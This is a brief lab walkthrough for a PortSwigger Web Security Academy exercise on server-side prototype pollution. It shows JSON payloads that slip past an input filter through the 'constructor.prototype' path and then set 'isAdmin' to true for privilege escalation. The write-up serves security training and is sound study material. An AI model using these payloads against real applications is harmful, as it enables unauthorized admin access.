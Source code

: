 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-7/"}
---
```



---
## Objective: Bypass Input Filters and Privesc

Login like usual with the given credentials::

`wiener:peter`

![Pasted image 20250402004554.png](/img/user/Images/Pasted%20image%2020250402004554.png)

Submit, inspect the request and forward to Repeater

![Pasted image 20250402004752.png](/img/user/Images/Pasted%20image%2020250402004752.png)

I'm going to  assume the normal method of polluting the prototype is filtered. Let's try bypassing this using the `constructor` property

```json
"constructor":{
	"prototype":{
		"foo":"bar"
	}
}
```

Send the request

![Pasted image 20250402010419.png](/img/user/Images/Pasted%20image%2020250402010419.png)

Great, that worked. Now just change the value of `isAdmin` to `true`

```json
"constructor":{
	"prototype":{
		"isAdmin":"true"
	}
}
```


